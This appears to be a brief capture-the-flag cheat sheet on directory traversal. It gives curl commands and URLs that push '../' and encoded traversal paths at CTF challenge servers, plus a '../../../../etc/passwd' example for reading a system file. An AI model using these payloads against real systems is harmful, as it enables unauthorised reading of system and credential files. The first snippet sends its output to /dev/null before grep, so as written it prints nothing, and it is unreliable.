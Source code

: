 ### Directory Traversal

---

```py
#!/bin/bash
curl -X POST "http://saturn.picoctf.net:52472/read.php" -d filename=../../../../flag.txt >/dev/null 2>&1 | grep -ho "picoCTF{.*}"
```

```py
https://vertical-traversal.tuctf.com/get/...%2Fflag.txt
../../../../../../../../etc/passwd -> Ultimately this will become /etc/passwd because the computer will not go a directory above its top directory.
```

```py
for i in $(seq 3000 4000); do curl -s https://directory.web.actf.co/$i.html | grep -v "another file";done
```

[Filtering](https://security.stackexchange.com/questions/96736/path-traversal-filter-bypass-techniques)
